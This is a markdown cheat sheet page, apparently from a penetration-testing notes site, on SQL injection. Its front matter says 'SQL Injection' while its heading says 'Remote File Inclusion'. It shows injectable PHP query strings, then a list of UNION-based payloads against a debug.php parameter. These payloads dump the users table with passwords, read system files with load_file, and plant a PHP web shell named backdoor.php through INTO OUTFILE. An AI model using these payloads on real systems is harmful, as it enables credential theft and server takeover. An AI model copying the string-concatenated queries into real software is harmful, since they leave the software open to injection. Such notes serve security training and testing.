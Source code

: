 ```yaml
---
title: SQL Injection
layout: default
nav_order: 5
parent: Web Apps
grand_parent: Exploitation
---
```


# Remote File Inclusion
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---
### SQL Queries
#### SQL query for grabbing ID
```sql
SELECT username FROM users WHERE id=1;

$sql = "SELECT id, name, text FROM feedback WHERE id=". $_GET['id'];
```

#### SQL query for checking users and passwords
```sql
select * from users where username = '$user' and password = '$pass'
```
---
### Injection Queries
#### SQL Injection (ID) - `SQLITE3`
```bash
http://$IP/debug.php?id=1 OR 2 UNION SELECT * FROM USERS--;'
```
*This SQL injection query asks for id of `1` and uses `UNION` to tack on a query that dumps the table of users*

#### SQL Injection (ID) - `MariaDB`
##### Get columns from database
```bash
http://$IP/debug.php?id=1 OR 2 UNION ALL SELECT 1,2,3--;'
```

##### Get SQL version
```bash
http://$IP/debug.php?id=1 union all select 1, 2, @@version
```

##### Get User
```bash
http://$IP/debug.php?id=1 union all select 1, 2, user()
```

##### Get Database Info
```bash
http://$IP/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

##### Enumerate Users
```bash
http://$IP/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

```bash
http://$IP/debug.php?id=1 union all select 1, username, password from users
```

##### Read files - Windows
```bash
http://$IP/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

##### Injection to Remote Code Execution (RCE) - Windows 
```bash
http://$IP/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```